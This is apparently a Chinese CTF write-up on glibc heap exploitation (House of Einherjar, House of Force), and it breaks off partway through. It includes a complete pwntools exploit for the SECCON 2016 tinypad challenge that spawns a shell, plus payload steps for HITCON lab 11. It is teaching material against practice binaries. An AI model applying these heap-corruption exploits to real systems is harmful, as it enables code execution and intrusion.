0x55555555a220:	0x4141414141414141	0x4141414141414141    
0x55555555a230:	0x0000000000000220	0x0000000000000100 //s2     off by one将最低为写入00，表示前面的chunk空闲
0x55555555a240:	0x0000000000000000	0x0000000000000000
0x55555555a250:	0x0000000000000000	0x0000000000000000
0x55555555a260:	0x0000000000000000	0x0000000000000000
0x55555555a270:	0x0000000000000000	0x0000000000000000
0x55555555a280:	0x0000000000000000	0x0000000000000000
0x55555555a290:	0x0000000000000000	0x0000000000000000
```

此时无bins

```
pwndbg> bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
```

free(2)后，查看bins，发现fd不是s2的位置，而是存储之前s0的fd的位置

```
pwndbg> bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x55555555a010 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x55555555a010
smallbins
empty
largebins
empty
```

具体步骤：操作free(2)，会向低地址合并，发现自己的size的inuse位位0，表示前一个chunk是空闲状态，故会执行下面代码，由于我们第二个read已近构造了数据，prev_size为0x220，所以合并后的chunk大小为0x220+0x100=0x320，p定位至p-long(prevsize)处，进行unlink操作

```
	  //3向后合并——合并低地址的chunk
      /* consolidate backward */
      if (!prev_inuse(p)) {
        prevsize = p->prev_size;
        size += prevsize;
        p = chunk_at_offset(p, -((long) prevsize));
        unlink(av, p, bck, fwd);  //unlink有关的漏洞就是在这里产生的
      }
```

为了绕过unlink的检测代码

```
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))		      \
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);
```

在第一个read处已经构造了相关数据，要进行unlink的p的fd和bd都指向0x000055555555a010，这里是都让其指向本身p，进而绕过该判断。

疑问：按道理在第一次read构造的数据应该要是0x221，为什么0x101也能成功？unlink的检测机制是这样的：

```
if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");
```

此时的p指针是0x000055555555a010，next_chunk是得到下一个物理相邻的chunk

```
#define next_chunk(p) ((mchunkptr) (((char *) (p)) + ((p)->size & ~SIZE_BITS)))
```

此时得到的next_chunk(p)的指针是0x000055555555a010+0x100=0x000055555555a110，所以prev_size (next_chunk(P)), 0)=0x100,其实这个数据也是我们第一次read构造的。而chunksize(p)得到的大小也是0x100，两者相等，绕过判断。那么如果上面构造的是0x221，则不用在一开始的read中构造最后的0x100；其实两者道理是一致的，无非在判断大小的时候，构造的数据绕了一圈

#### 2016 Seccon tinypad

##### 程序防护

```
dililearngent@dililearngent-virtual-machine:~/Desktop/CTF/pwn/heap/house-of-einhexjar$ checksec tinypad
[*] '/home/dililearngent/Desktop/CTF/pwn/heap/house-of-einhexjar/tinypad'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
```

##### 程序分析

首先，可以看出，程序以来一个核心的读取函数，即读取指定长度字节的字符串，然而，当读取的长度恰好为指定的长度时，会出现 **off by one 的漏洞**。

通过分析程序，我们不难看出，这个程序的基本功能是操作一个 tinypad，主要有以下操作

- 开头，程序每次开头依次判断每个 memo 的指针来判断是否为空，如果不为空，进而利用 strlen 求得其相应的长度，将 memo 的内容输出。从这里，我们也可以看出最多有 4 个 memo。
- 添加 memo，遍历存储 memo 的变量 tinypad，根据 tinypad 的存储的大小判断 memo 是否在使用，然后还有的话，分配一个 memo。从这里我们可以知道，程序只是从 tinypad 起始偏移 16*16=256 处才开始使用，每个 memo 存储两个字段，一个是该 memo 的大小，另一个是该 memo 对应的指针。所以我们可以创建一个新的结构体，并修改 ida 识别的 tinypad，使之更加可读（但是其实 ida 没有办法帮忙智能识别。）。同时，由于该添加功能依赖于读取函数，所以存在 off by one 的漏洞。此外，我们可以看出，用户申请的 chunk 的大小最大为 256 字节，和 tinypad 前面的未使用的 256 字节恰好一致。
- 删除，根据存储 memo 的大小判断 memo 是否在被使用，同时将相应 memo 大小设置为 0，但是并没有将指针设置为 NULL，有可能会导致 Use After Free。**即在程序开头时，就有可能输出一些相关的内容，这其实就是我们泄漏一些基地址的基础**。
- 编辑。在编辑时，程序首先根据之前存储的 memo 的内容将其拷贝到 tinypad 的前 256 个字节中，但正如我们之前所说的，当 memo 存储了 256 个字节时，就会存在 off by one 漏洞。与此同时，程序利用 strlen 判断复制之后的 tinypad 的内容长度，并将其输出。之后程序继续利用 strlen 求得 memo 的长度，并读取指定长度内容到 tinypad 中，根据读取函数，这里必然出现了 `\x00`。最后程序将读取到 tinypad 前 256 字节的内容放到对应 memo 中。
- 退出

##### 详细步骤

**第一步**：泄露堆地址

```python
# 1. leak heap base
Add(0x70, 'a' * 8)  # idx 0
Add(0x70, 'b' * 8)  # idx 1
Add(0x100, 'c' * 8)  # idx 2

Delete(2)  # delete idx 1
Delete(1)  # delete idx 0, idx 0 point to idx 1

p.recvuntil(' # CONTENT: ')
data = p.recvuntil('\n', drop=True)  # get pointer point to idx1
heap_base = u64(data.ljust(8, '\x00')) - 0x80
log.success('get heap base: ' + hex(heap_base))
```

将0和1free掉后，都加入到fastbins，此时的0的fd指针指向1

```
pwndbg> heap
Free chunk (fastbins) | PREV_INUSE        //0
Addr: 0x603000
Size: 0x81
fd: 0x603080

Free chunk (fastbins) | PREV_INUSE       //1
Addr: 0x603080
Size: 0x81
fd: 0x00

Allocated chunk | PREV_INUSE             //2
Addr: 0x603100
Size: 0x111

Top chunk | PREV_INUSE                   //top chunk
Addr: 0x603210
Size: 0x20df1

pwndbg> bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x603000 —▸ 0x603080 ◂— 0x0
```

由于在tinypad数组中，free掉相应的堆块后，没有将指针设置为NULL，故该数组中还保存之前chunk的开始指针，在输出数据的时候就能读出之前0堆块的fd的内容，即1的堆地址

```
pwndbg> x /10gx 0x0000000000602040+256       //tinypad存储着各堆块的指针
0x602140 <tinypad+256>:	0x0000000000000000	0x0000000000603010
0x602150 <tinypad+272>:	0x0000000000000000	0x0000000000603090
0x602160 <tinypad+288>:	0x0000000000000100	0x0000000000603110
0x602170 <tinypad+304>:	0x0000000000000000	0x0000000000000000
0x602180:	0x0000000000000000	0x0000000000000000

pwndbg> x /10gx 0x0000000000603010
0x603010:	0x0000000000603080	0x0000000000000000
0x603020:	0x0000000000000000	0x0000000000000000
0x603030:	0x0000000000000000	0x0000000000000000
0x603040:	0x0000000000000000	0x0000000000000000
0x603050:	0x0000000000000000	0x0000000000000000

```

减去0x80后就得到0块的对地址，也就是堆的基地址0x0603000

**第二步**：利用UAF泄露libc基地址

```python
main_arena_offset = 0x3c3b20
Delete(3)
p.recvuntil(' # CONTENT: ')
data = p.recvuntil('\n', drop=True)
unsorted_offset_arena = 8 + 10 * 8
main_arena = u64(data.ljust(8, '\x00')) - unsorted_offset_arena
# malloc_hook = main_arena-0x10
# libc_base1 = malloc_hook-libc.sym['__malloc_hook']
# print(hex(libc_base1))
libc_base = main_arena - main_arena_offset
log.success('main arena addr: ' + hex(main_arena))
log.success('libc base addr: ' + hex(libc_base))
```

查看相关情况

```
pwndbg> x /10gx 0x0000000000602040+256
0x602140 <tinypad+256>:	0x0000000000000000	0x0000000000603010
0x602150 <tinypad+272>:	0x0000000000000000	0x0000000000603090
0x602160 <tinypad+288>:	0x0000000000000000	0x0000000000603110
0x602170 <tinypad+304>:	0x0000000000000000	0x0000000000000000
0x602180:	0x0000000000000000	0x0000000000000000
pwndbg> x /10gx 0x0000000000603000
0x603000:	0x0000000000000000	0x0000000000021001
0x603010:	0x00007ffff7dd1b78	0x00007ffff7dd1b78       //输出位置
0x603020:	0x0000000000000000	0x0000000000000000
0x603030:	0x0000000000000000	0x0000000000000000
0x603040:	0x0000000000000000	0x0000000000000000
```

查看heap

```
pwndbg> heap
Top chunk | PREV_INUSE
Addr: 0x603000
Size: 0x21001
```

一开始我也有点疑问，但是只要明白free的过程，就能很容易明白。首先free(3)，不属于fastbins大小范围，没有加入到fastbins，故执行下一步，首先向后合并，发现2空闲，故使用unlink合并，释放的3的下一个chunk是top chunk，故没有在向前合并的过程里合并到top chunk，而是在else语句中(见源代码)合并到top chunk，接着向系统返还内存，符合if条件，发现还有fastbins，故会执行malloc_consolidate合并所有的fastbins，最后所有的chunk都合并到了top chunk

泄露后的地址：

```
[+] get heap base: 0x603000
[+] main arena addr: 0x7ffff7dd1b20
[+] libc base addr: 0x7ffff7a0e000
```

**第三步**：利用house of  Einherjar伪造chunk

```python
Add(0x18, 'a' * 0x18)  # idx 0
# we would like trigger house of einherjar at idx 1
Add(0x100, 'b' * 0xf8 + '\x11')  # idx 1
Add(0x100, 'c' * 0xf8)  # idx 2
Add(0x100, 'd' * 0xf8)  #idx 3
# create a fake chunk in tinypad's 0x100 buffer, offset 0x20
tinypad_addr = 0x602040
fakechunk_addr = tinypad_addr + 0x20
fakechunk_size = 0x101
fakechunk = p64(0) + p64(fakechunk_size) + p64(fakechunk_addr) + p64(
    fakechunk_addr)
Edit(3, 'd' * 0x20 + fakechunk)
```

+ 首先明确我们需要伪造chunk的地址：这里选择tinypad_addr+0x20，留这0x20是后面还有用
+ 构造payload：在构造之前观察程序的编辑函数，程序的编辑函数首先将原始内容strcpy复制到tinypad，然后我们输入的payload放到tinypad数组的前256个字节，然后使用strcpy函数将tinypad中新的内容复制到对应chunk的编辑位置。于是我们的payload能够完成写到tingypad中，而对于chunk2只写入了0x20个'd',而后面的内容由于后面的p64(0)截断了

```
pwndbg> x /10gx 0x0000000000602040
0x602040 <tinypad>:	0x6464646464646464	0x6464646464646464
0x602050 <tinypad+16>:	0x6464646464646464	0x6464646464646464
0x602060 <tinypad+32>:	0x0000000000000000	0x0000000000000101
0x602070 <tinypad+48>:	0x0000000000602060	0x0000000000602060
0x602080 <tinypad+64>:	0x6363636363636300	0x6363636363636363     //原始脏数据

pwndbg> x /10gx 0x603130          //chunk2中的内容，确实只写了0x20，然后加了一个00截断
0x603130:	0x0000000000000000	0x0000000000000111
0x603140:	0x6464646464646464	0x6464646464646464
0x603150:	0x6464646464646464	0x6464646464646464
0x603160:	0x6363636363636300	0x6363636363636363
0x603170:	0x6363636363636363	0x6363636363636363
```

+ 伪造的chunk构造好后，就需要构造释放的chunk，这里选择释放chunk1
+ 构造chunk1的size字段的inuse位为0，表示前一个chunk空闲，构造pre_size为本chunk与伪造chunk的大小的距离，便于向前合并

```
diff = heap_base + 0x20 - fakechunk_addr
log.info('diff between idx1 and fakechunk: ' + hex(diff))
# '\0' padding caused by strcpy
diff_strip = p64(diff).strip('\0')
number_of_zeros = len(p64(diff)) - len(diff_strip)
for i in range(number_of_zeros + 1):
    data = diff_strip.rjust(0x18 - i, 'f')
    Edit(1, data)
```

这段代码堪称本次利用的经典，会发现前面设置的一切刚刚好！(前面流0x20的作用就在这里，避免在编辑其他chunk的数据的时候，将数据复制到tinypad破坏了我们伪造的chunk)；因为chunk0设置的大小是0x18，所以其后面的8个字节就是chunk1的prev_size,故在编辑chunk0的时候可以设置需要的数据。由于原始该地方存储这'a',故需要清除脏数据，然后又使用了strcpy函数，会造成碰到\x00截断。故只能使用上面for循环，而在第一次循环的时候写入了0x18，strcpy在后年自动加上了00，正好将chunk1的size低2为设置为0x00

```
pwndbg> x /10gx 0x603000
0x603000:	0x0000000000000000	0x0000000000000021
0x603010:	0x6666666666666666	0x6666666666666666
0x603020:	0x0000000000000fc0	0x0000000000000100     //这里
0x603030:	0x6262626262626262	0x6262626262626262
0x603040:	0x6262626262626262	0x6262626262626262
```

+ 条件都设置后来之后，再检查一遍，还有一个问题，检查我们伪造的chunk是否能够绕过unlink的两个判断，第一个判断是size判断，根据伪造chunk的size找到下一个'伪造chunk'的下一个chunk'，然后取其prev_size和伪造chunk的size比较大小是否相等。而第二个判断再构造数据的时候已近构造好

```
pwndbg> x /10gx 0x0000000000602060+0x100
0x602160 <tinypad+288>:	0x0000000000000100//取这个值比较	0x0000000000603140
0x602170 <tinypad+304>:	0x0000000000000100	0x0000000000603250
0x602180:	0x0000000000000000	0x0000000000000000
0x602190:	0x0000000000000000	0x0000000000000000
0x6021a0:	0x0000000000000000	0x0000000000000000
```

根据unlink中的函数代码，伪造chunk的下一个chunk的首地址=伪造的chunk地址-伪造chunk地址size(当然这里的size是真实大小，不包括标志位，具体看代码的处理部分)，看上面结果，正好是tinypad存储chunk大小的位置，于是不需要我们另外构造。(其实也不用检查，再构造chunk的时候就应该想到这一步)

触发：

```
Delete(2)
p.recvuntil('\nDeleted.')
```

观察结果：

```
pwndbg> x /10gx 0x0000000000602040
0x602040 <tinypad>:	0x6666666666666666	0x6666666666666666
0x602050 <tinypad+16>:	0x0000000000000fc0	0x6464646464000100
0x602060 <tinypad+32>:	0x0000000000000000	0x00000000000010c1    //达到效果
0x602070 <tinypad+48>:	0x00007ffff7dd1b78	0x00007ffff7dd1b78 
0x602080 <tinypad+64>:	0x0000000000000000	0x0000000000000000

pwndbg> bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x602060 (tinypad+32) —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x602060 /* '` `' */
smallbins
empty
largebins
empty
```

这样我们就能够在tinypad上申请chunk，从而控制更多数据

调整伪造chunk的的一些数据，size,fd,bk等

```python
Edit(4, 'd' * 0x20 + p64(0) + p64(0x101) + p64(main_arena + 88) +p64(main_arena + 88))
```

注意：这里修改chunk3，原数据都会先复制到tingpad，然后后构造的payload输入到tingpad，依旧修改的chunk里面因为00截断只会写入0x20个数据，调整成功

```
pwndbg> x /10gx 0x0000000000602040
0x602040 <tinypad>:	0x6464646464646464	0x6464646464646464
0x602050 <tinypad+16>:	0x6464646464646464	0x6464646464646464
0x602060 <tinypad+32>:	0x0000000000000000	0x0000000000000101     //这里
0x602070 <tinypad+48>:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
0x602080 <tinypad+64>:	0x6464646464646400	0x6464646464646464
```

这样就是一个完美的unsortbin chunk了

**第四步**：修改main函数的返回地址为one_gatget地址

```python
one_gadget_addr = libc_base + 0xf0897
environ_pointer = libc_base + libc.symbols['__environ']#环境变量
log.info('one gadget addr: ' + hex(one_gadget_addr))
log.info('environ pointer addr: ' + hex(environ_pointer))
#fake_malloc_chunk = main_arena - 60 + 9
# set memo[0].size = 'a'*8,
# set memo[0].content point to environ to leak environ addr
fake_pad = 'f' * (0x100 - 0x20 - 0x10) + 'a' * 8 + p64(
    environ_pointer) + 'a' * 8 + p64(0x602148)
# get a fake chunk
Add(0x100 - 8, fake_pad)  # idx 2
```

首先获取one_gadget地址和environ环境变量地址。再伪造一个chunk，伪造的chunk是从之前伪造的unsorted chunk上分配的，数据是从0x602070开始写的，将chunk0的指针设置为environ_pointer，便于输出，将chunk1的指针设置为0x602148，便于下次编辑

```
pwndbg> x /10gx 0x0000000000602040
0x602040 <tinypad>:	0x6464646464646464	0x6464646464646464
0x602050 <tinypad+16>:	0x6464646464646464	0x6464646464646464
0x602060 <tinypad+32>:	0x0000000000000000	0x0000000000000101
0x602070 <tinypad+48>:	0x6666666666666666	0x6666666666666666
0x602080 <tinypad+64>:	0x6666666666666666	0x6666666666666666
pwndbg> x /10gx 0x0000000000602040+256
0x602140 <tinypad+256>:	0x6161616161616161	0x00007ffff7dd3f98  //主要是这两个
0x602150 <tinypad+272>:	0x6161616161616161	0x0000000000602148  //
0x602160 <tinypad+288>:	0x0000000000000100	0x0000000000603141
0x602170 <tinypad+304>:	0x0000000000000100	0x0000000000603250
0x602180:	0x0000000000000000	0x0000000000000000
```

通过泄露environ addr得到main的返回地址，这就是在chunk0设置

```python
# get environ addr
p.recvuntil(' # CONTENT: ')
environ_addr = p.recvuntil('\n', drop=True).ljust(8, '\x00')
environ_addr = u64(environ_addr)
main_ret_addr = environ_addr - 30 * 8
```

```
pwndbg> x /10gx 0x0000000000602040+256
0x602140 <tinypad+256>:	0x6161616161616161	0x00007ffff7dd3f98
0x602150 <tinypad+272>:	0x6161616161616161	0x0000000000602148
0x602160 <tinypad+288>:	0x0000000000000100	0x0000000000603141
0x602170 <tinypad+304>:	0x0000000000000100	0x0000000000603250
0x602180:	0x0000000000000000	0x0000000000000000
pwndbg> x /gx 0x00007ffff7dd3f98                   //environ addr
0x7ffff7dd3f98 <environ>:	0x00007fffffffdf58
pwndbg> x /gx 0x00007fffffffdf58-30*8             //main_addr
0x7fffffffde68:	0x00007ffff7a2e830
pwndbg> x /gx 0x00007ffff7a2e830
0x7ffff7a2e830 <__libc_start_main+240>:	0x31000197e9e8c789

```

将main_addr的地址先写入到chunk1,也就是0x0000000000602148，也就是chunk0存放指针处，然后将one_gatget的地址写入到chunk0，也就是main_addr中

```
# set memo[0].content point to main_ret_addr
Edit(2, p64(main_ret_addr))
# overwrite main_ret_addr with one_gadget addr
Edit(1, p64(one_gadget_addr))
```

```
pwndbg> x /10gx 0x0000000000602040+256
0x602140 <tinypad+256>:	0x6161616161616161	0x00007fffffffde68    mian_addr
0x602150 <tinypad+272>:	0x6161616161616161	0x0000000000602148
0x602160 <tinypad+288>:	0x0000000000000100	0x0000000000603141
0x602170 <tinypad+304>:	0x0000000000000100	0x0000000000603250
0x602180:	0x0000000000000000	0x0000000000000000
pwndbg> x /gx 0x00007fffffffde68
0x7fffffffde68:	0x00007ffff7afe897      one_gatget_addr
pwndbg> x /gx 0x00007ffff7afe897
0x7ffff7afe897 <exec_comm+2263>:	0x48002d261a058b48     //one_gatget
```

得到shell

##### 完整exp

```python
# -*- coding:utf-8 -*-
from pwn import *

context(os='linux',arch='amd64')
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
p = process('./tinypad')
libc = ELF('/home/dililearngent/Desktop/glibc-all-in-one/libs/2.23-0ubuntu3_amd64/libc.so.6')

def Add(size,content):
    p.recvuntil('(CMD)>>> ')
    p.sendline('a')
    p.recvuntil('(SIZE)>>> ')
    p.sendline(str(size))
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)

def Delete(idx):
    p.recvuntil('(CMD)>>> ')
    p.sendline('d')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(idx))

def Edit(idx,content):
    p.recvuntil('(CMD)>>> ')
    p.sendline('e')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(idx))
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)
    p.recvuntil('Is it OK?\n')
    p.sendline('y')

gdb.attach(p)
p.recvuntil(
        '  ============================================================================\n\n'
    )
# 1. leak heap base
Add(0x70, 'a' * 8)  # idx 0
Add(0x70, 'b' * 8)  # idx 1
Add(0x100, 'c' * 8)  # idx 2

Delete(2)  # delete idx 1
Delete(1)  # delete idx 0, idx 0 point to idx 1

p.recvuntil(' # CONTENT: ')
data = p.recvuntil('\n', drop=True)  # get pointer point to idx1
heap_base = u64(data.ljust(8, '\x00')) - 0x80
log.success('get heap base: ' + hex(heap_base))

# 2. leak libc base
# this will trigger malloc_consolidate
# first idx0 will go to unsorted bin
# second idx1 will merge with idx0(unlink), and point to idx0
# third idx1 will merge into top chunk
# but cause unlink feture, the idx0's fd and bk won't change
# so idx0 will leak the unsorted bin addr
main_arena_offset = 0x3c3b20
Delete(3)
p.recvuntil(' # CONTENT: ')
data = p.recvuntil('\n', drop=True)
unsorted_offset_arena = 8 + 10 * 8
main_arena = u64(data.ljust(8, '\x00')) - unsorted_offset_arena
# malloc_hook = main_arena-0x10
# libc_base1 = malloc_hook-libc.sym['__malloc_hook']
# print(hex(libc_base1))
libc_base = main_arena - main_arena_offset
log.success('main arena addr: ' + hex(main_arena))
log.success('libc base addr: ' + hex(libc_base))


# 3. house of einherjar
Add(0x18, 'a' * 0x18)  # idx 0
# we would like trigger house of einherjar at idx 1
Add(0x100, 'b' * 0xf8 + '\x11')  # idx 1
Add(0x100, 'c' * 0xf8)  # idx 2
Add(0x100, 'd' * 0xf8)  #idx 3
# create a fake chunk in tinypad's 0x100 buffer, offset 0x20
tinypad_addr = 0x602040
fakechunk_addr = tinypad_addr + 0x20
fakechunk_size = 0x101
fakechunk = p64(0) + p64(fakechunk_size) + p64(fakechunk_addr) + p64(
    fakechunk_addr)
Edit(3, 'd' * 0x20 + fakechunk)
# overwrite idx 1's prev_size and
# set minaddr of size to '\x00'
# idx 0's chunk size is 0x20
diff = heap_base + 0x20 - fakechunk_addr
log.info('diff between idx1 and fakechunk: ' + hex(diff))
# '\0' padding caused by strcpy
diff_strip = p64(diff).strip('\0')
number_of_zeros = len(p64(diff)) - len(diff_strip)
for i in range(number_of_zeros + 1):
    data = diff_strip.rjust(0x18 - i, 'f')
    Edit(1, data)


Delete(2)
p.recvuntil('\nDeleted.')

# fix the fake chunk size, fd and bk
# fd and bk must be unsorted bin
Edit(4, 'd' * 0x20 + p64(0) + p64(0x101) + p64(main_arena + 88) +p64(main_arena + 88))
# 3. overwrite malloc_hook with one_gadget

one_gadget_addr = libc_base + 0xf0897
environ_pointer = libc_base + libc.symbols['__environ']#环境变量
log.info('one gadget addr: ' + hex(one_gadget_addr))
log.info('environ pointer addr: ' + hex(environ_pointer))
#fake_malloc_chunk = main_arena - 60 + 9
# set memo[0].size = 'a'*8,
# set memo[0].content point to environ to leak environ addr
fake_pad = 'f' * (0x100 - 0x20 - 0x10) + 'a' * 8 + p64(
    environ_pointer) + 'a' * 8 + p64(0x602148)
# get a fake chunk
Add(0x100 - 8, fake_pad)  # idx 2


# get environ addr
p.recvuntil(' # CONTENT: ')
environ_addr = p.recvuntil('\n', drop=True).ljust(8, '\x00')
environ_addr = u64(environ_addr)
main_ret_addr = environ_addr - 30 * 8
pause()

# set memo[0].content point to main_ret_addr
Edit(2, p64(main_ret_addr))
# overwrite main_ret_addr with one_gadget addr
Edit(1, p64(one_gadget_addr))
pause()

p.interactive()
```


## House Of Force

### 原理

#### 产生原因

House Of Force产生于glibc对top chunk的处理，在进行堆块分配时，如果所有空闲的块都无法满足需求，那么就会从 top chunk 中分割出相应的大小作为堆块的空间。

那么如果使用 top chunk 分配堆块的 size 值可以被用户可以任意控制，是否会造成top chunk指向我们期望的如何位置，相当于有一次任意地址写的机会

分析源码：在glibc源码中，在分配前会对用户申请的大小和top chunk的size位进行检查

```c
//获取当前top chunk的大小，并且计算其大小
      victim = av->top;
      size = chunksize (victim);
      //如果分割之后大小满足chunk块的最小大小，则进行切割
      if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE))
        {
          remainder_size = size - nb;
          remainder = chunk_at_offset (victim, nb);
          av->top = remainder;
          //设置PREV_INUSE，防止其前面非fastbin chunk与top chunk合并
          set_head (victim, nb | PREV_INUSE |
                    (av != &main_arena ? NON_MAIN_ARENA : 0));
          set_head (remainder, remainder_size | PREV_INUSE);

          check_malloced_chunk (av, victim, nb);
          void *p = chunk2mem (victim);
          alloc_perturb (p, bytes);
          return p;
        }
```

一般而言，我们期望的地址离堆地址有一定的距离，所以申请的大小会很大(一般为负数居多)，而比较过程中都是以无符号数比较，可想而知在if判断的第一步就不满足条件，所以上面提到这里需要一个能够**控制top chunk size域的漏洞，可以将size更改成-1(-1是unsigned long中最大的数)**，这样在无符号比较的时候能够轻松绕过判断，执行if中的代码

```
remainder = chunk_at_offset (victim, nb);
av->top = remainder;
```

以上代码这两句就是更新top chunk的指针，也就是使得top chunk指向了我们期望的地址，实现任意地址任意写的目的。与此同时，top chunk的size也会更新，要使得能够分配下一个chunk，只需要保证更新后的top chunk size大于申请空间+MINSIZE(一般而言都是满足的，因为前面伪造的top chunk size已近够大了)

#### 利用条件

- 首先，需要存在漏洞使得用户能够控制 top chunk 的 size 域。
- 其次，**需要用户能自由控制 malloc 的分配大小**
- 第三，分配的次数不能受限制

#### 利用思路

+ 篡改top chunk size域
+ 计算期望分配的地址到top chunk的偏移x
+ malloc(x)，将top chunk移到期望分配的地址处
+ 再次malloc就能够在期望的地址处申请空间

对于第二步计算偏移，步骤如下：

假设期望申请的地址是x，top chunk的地址是y，现在需要将top chunk的地址移到x处，计算偏移为x-y，但这还并不是用户真正申请的空间大小，用户真正申请的大小z需要经历以下步骤：
malloc(z):

```c
void *__libc_malloc(size_t bytes) {
```

用户申请的内存大小，一旦进入申请内存的函数中就变成了无符号整数

在_int\_malloc中会执行这个函数：

```c
//将需要分配的大小转化成chunk的大小
  checked_request2size (bytes, nb);
```

而这个宏定义：

```c
#define REQUEST_OUT_OF_RANGE(req)                                 \
  ((unsigned long) (req) >=						      \
   (unsigned long) (INTERNAL_SIZE_T) (-2 * MINSIZE))

/* pad request bytes into a usable size -- internal version */

#define request2size(req)                                         \
  (((req) + SIZE_SZ + MALLOC_ALIGN_MASK < MINSIZE)  ?             \
   MINSIZE :                                                      \
   ((req) + SIZE_SZ + MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK)

/*  Same, except also perform argument check */

#define checked_request2size(req, sz)                             \
  if (REQUEST_OUT_OF_RANGE (req)) {					      \
      __set_errno (ENOMEM);						      \
      return 0;								      \
    }									      \
  (sz) = request2size (req);
```

一方面，我们需要绕过 REQUEST_OUT_OF_RANGE(req) 这个检测，即我们传给 malloc 的值在负数范围内，不得大于 -2 * MINSIZE，这个一般情况下都是可以满足的。

接下需要使用request2size(req)得到真正申请的chunk大小，即x-y。

 SIZE_SZ:(32位)4或(64位)8

```
/* The corresponding word size */
#define SIZE_SZ                (sizeof(INTERNAL_SIZE_T))
```

MALLOC_ALIGN_MASK：

```
#  define MALLOC_ALIGNMENT       (2 *SIZE_SZ < __alignof__ (long double)      \
                                  ? __alignof__ (long double) : 2 *SIZE_SZ)
# else
#  define MALLOC_ALIGNMENT       (2 *SIZE_SZ)
# endif
#endif

/* The corresponding bit mask value */
#define MALLOC_ALIGN_MASK      (MALLOC_ALIGNMENT - 1)
```

接着上面：按道理会执行((req) + SIZE_SZ + MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK)得到的结果是x-y，其中& ~是位与非。如果这里的x-y是对齐的，那么**z=x-y-SIZE_SZ - MALLOC_ALIGN_MASK**，这里的 MALLOC_ALIGN_MASK也可以不减，因为最后还是会被对齐，不影响。

如果x-y是不对齐的，那么需要更具实际情况调试分析计算。所在在寻找期望地址时尽量两者之间的距离能够对齐的。

### 例题

#### HITCON training lab 11

##### 程序防护

```
dililearngent@dililearngent-virtual-machine:~/Desktop/CTF/pwn/heap/house-of-force$ checksec bamboobox
[*] '/home/dililearngent/Desktop/CTF/pwn/heap/house-of-force/bamboobox'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

##### 程序分析

需要注意的是，该程序开始时即申请了 0x10 的内存，用来保留**两个函数指针**。

该程序大概就是对于盒子里的物品进行添加和删除

1. 展示盒子里的内容，依次盒子里每一个物品的名字。
2. 向盒子里添加物品，根据用户输入的大小来为每一个物品申请对应的内存，作为其存储名字的空间。但是需要注意的是，这里读取名字使用的是 `read` 函数，读取长度的参数是用户输入的 v2，而 read 的第三个参数是无符号整数，如果我们输入负数，就可以读取任意长度。但是我们需要确保该数值满足`REQUEST_OUT_OF_RANGE` 的约束，所以这里存在**任意长度堆溢出**的漏洞。但即使这样，第一次的时候也比较难以利用，因为初始时候堆的 top chunk 的大小一般是不会很大的。
3. 修改物品的名字，根据给定的索引，以及大小，向指定索引的物品中读取指定长度名字。这里长度由用户来读入，也存在**任意长度堆溢出**的漏洞。
4. 删除物品，将对应物品的名字的大小置为 0，并将对应的 content 置为 NULL。

此外，由于该程序主要是一个演示程序，所以程序中有一个 magic 函数，可以直接读取 flag。

##### 思路

根据HOF的利用思路：

由于程序中有个 magic 函数，所以我们的核心目的是覆盖某个指针为 magic 函数的指针。这里，程序在开始的时候申请了一块内存来存储两个函数指针，hello_message 用于程序开始时使用，goodbye_message 用于在程序结束时使用，所以我们可以利用覆盖 goodbye_message 来控制程序执行流。具体思路如下

1. 添加物品，利用堆溢出漏洞覆盖 top chunk 的大小为 -1，即 64 位最大值。
2. 利用 house of force 技巧，分配 chunk 至堆的基地址。
3. 覆盖 goodbye_message 为 magic 函数地址来控制程序执行流

##### 详细步骤

第一步：利用堆溢出漏洞覆盖top chunk的大小

```python
add_item(0x20,'aaaa')
payload = 'a'*0x28+p64(0xffffffffffffffff)
change_item(0,0x30,payload)
```

查看：

```
pwndbg> x /20gx 0x603000
0x603000:	0x0000000000000000	0x0000000000000021      //存储两个函数的chunk 
0x603010:	0x0000000000400896	0x00000000004008b1
0x603020:	0x0000000000000000	0x0000000000000031      //0
0x603030:	0x6161616161616161	0x6161616161616161
0x603040:	0x6161616161616161	0x6161616161616161
0x603050:	0x6161616161616161	0xffffffffffffffff      //top chunk
0x603060:	0x0000000000000000	0x0000000000000000
0x603070:	0x0000000000000000	0x0000000000000000
0x603080:	0x0000000000000000	0x0000000000000000
0x603090:	0x0000000000000000	0x0000000000000000
```

第二步：利用house of Force将top chunk地址构造在堆基址

```
offset = -(0x20+0x30)
malloc_size = offset-0x10-0xf
add_item(malloc_size,'bbbb')
```

查看：

```
pwndbg> heap
Top chunk | PREV_INUSE
Addr: 0x603000
Size: 0x49
```

此时top chunk的位置正是我们需要的堆基址

第三步：覆盖goodbye_message函数指针为magic函数地址

```python
magic_addr = 0x0000000000400D49
add_item(0x10,p64(magic_addr)*2)
```

查看此时堆中的内容：

```
pwndbg> x /20gx 0x603000
0x603000:	0x0000000000000000	0x0000000000000021
